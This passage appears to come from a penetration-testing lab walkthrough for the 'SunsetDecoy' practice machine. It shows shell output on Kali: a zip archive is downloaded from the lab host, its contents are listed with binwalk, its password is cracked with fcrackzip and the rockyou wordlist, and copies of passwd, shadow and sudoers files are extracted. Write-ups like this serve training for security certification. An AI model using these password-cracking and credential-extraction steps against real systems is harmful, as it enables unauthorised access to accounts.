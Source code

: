 ```shell
root@kali:/OSCPv3/offsec_pg/SunsetDecoy# wget http://192.168.131.85/save.zip
--2021-10-15 16:03:22--  http://192.168.131.85/save.zip
Conectando con 192.168.131.85:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 3123 (3,0K) [application/zip]
Grabando a: “save.zip”

save.zip                            100%[===================================================================>]   3,05K  --.-KB/s    en 0,001s  

2021-10-15 16:03:22 (2,20 MB/s) - “save.zip” guardado [3123/3123]
```shell

```shell
root@kali:/OSCPv3/offsec_pg/SunsetDecoy# binwalk -e save.zip 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Zip archive data, encrypted at least v2.0 to extract, compressed size: 668, uncompressed size: 1807, name: etc/passwd
752           0x2F0           Zip archive data, encrypted at least v2.0 to extract, compressed size: 434, uncompressed size: 1111, name: etc/shadow
1270          0x4F6           Zip archive data, encrypted at least v2.0 to extract, compressed size: 460, uncompressed size: 829, name: etc/group
1813          0x715           Zip archive data, encrypted at least v2.0 to extract, compressed size: 368, uncompressed size: 669, name: etc/sudoers
2266          0x8DA           Zip archive data, encrypted at least v2.0 to extract, compressed size: 140, uncompressed size: 185, name: etc/hosts
2489          0x9B9           Zip archive data, encrypted at least v1.0 to extract, compressed size: 45, uncompressed size: 33, name: etc/hostname
3101          0xC1D           End of Zip archive
```

```shell
root@kali:/OSCPv3/offsec_pg/SunsetDecoy# fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' save.zip 


PASSWORD FOUND!!!!: pw == manuel
root@kali:/OSCPv3/offsec_pg/SunsetDecoy# 
```

```shell
root@kali:/OSCPv3/offsec_pg/SunsetDecoy# unzip save.zip 
Archive:  save.zip
[save.zip] etc/passwd password: 
  inflating: etc/passwd              
  inflating: etc/shadow              
  inflating: etc/group               
  inflating: etc/sudoers             
  inflating: etc/hosts               
 extracting: etc/hostname            
```
